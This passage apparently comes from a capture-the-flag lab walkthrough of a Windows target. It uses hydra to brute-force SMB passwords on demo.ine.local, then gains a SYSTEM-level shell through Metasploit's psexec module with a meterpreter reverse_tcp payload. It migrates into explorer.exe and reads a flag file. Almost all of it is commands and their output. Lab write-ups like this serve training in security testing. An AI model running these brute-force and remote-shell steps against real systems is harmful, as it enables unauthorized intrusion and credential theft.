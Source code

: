 `hydra -L /root/Desktop/users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-14 17:45:15
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 2018 login tries (l:2/p:1009), ~2018 tries per task
[DATA] attacking smb://demo.ine.local:445/
[445][smb] host: demo.ine.local   login: administrator   password: elizabeth ←
[445][smb] host: demo.ine.local   login: admin   password: tinkerbell ←
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-14 17:45:19
```

**Step 6**.

`msfconsole -q`, `search psexec`, `use `, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser administrator`, `set SMBPass elizabeth`, `exploit`.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`migrate -N explorer.exe`:
```
[*] Migrating from 4828 to 4236...
[*] Migration completed successfully.
```

**Step 7**.

`shell`, `where /R C: "flag*"`:
```
C:\FLAG1.txt
```

`type C:\FLAG1.txt`:
```
a8f5f167f44f4964e6c998dee827110c
```

---
---
